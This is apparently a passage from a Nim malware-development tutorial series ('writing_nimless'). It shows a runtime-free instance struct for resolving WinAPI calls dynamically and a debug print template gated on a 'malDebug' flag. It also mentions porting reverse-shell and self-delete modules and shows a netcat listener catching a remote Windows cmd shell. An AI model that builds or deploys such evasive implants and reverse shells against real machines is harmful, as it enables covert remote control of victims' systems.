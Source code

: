 Defined in `instance.nim`, `ninst` is a global variable, but this can also be used on the stack:

```nim
#[ Global Instance ]#
var ninst*: NIMLESS_INSTANCE
```

When used on the stack, you will have to pass it into the functions you wish to call the WinAPI with.

```nim
# Stack usage
proc main() {.exportc: "Main".} =

  var ninst: NIMLESS_INSTANCE

  # Can check for errors - or ignore them
  discard init(ninst)

  doSomething(&ninst)

```

The `utils/stdio.nim` has been updated for use of the `NIMLESS_INSTANCE`. In this case, we rely on checking if the instance has been initialized before printing. 

```nim
import winim/lean

import ../instance

template PRINTA*(args: varargs[untyped]) =
  when defined(malDebug):
    var 
      pwsprintfA     = ninst.Win32.wsprintfA
      pLocalAlloc    = ninst.Win32.LocalAlloc
      pLocalFree     = ninst.Win32.LocalFree
      pGetStdHandle  = ninst.Win32.GetStdHandle
      pWriteConsoleA = ninst.Win32.WriteConsoleA

    var buf = cast[LPSTR](pLocalAlloc(LPTR, 1024))
    if cast[uint](buf) != 0:
      var length = pwsprintfA(buf, args)
      discard pWriteConsoleA(pGetStdHandle(STD_OUTPUT_HANDLE), buf, length, NULL, NULL)
      discard pLocalFree(cast[HLOCAL](buf))
```

We can also port over other functions previously written, such as `0x08 - reverse_shell` and `0x04 - self_delete`.

```bash
{23:11}~ ➭ nc -nvlp 1337
Listening on 0.0.0.0 1337
Connection received on 192.168.1.162 56741
Microsoft Windows [Version 10.0.19045.4291]
(c) Microsoft Corporation. All rights reserved.

C:\Users\user\Desktop\writing_nimless\src\0x11 - simple_instance>whoami
whoami
desktop-1fr9ejt\user
```
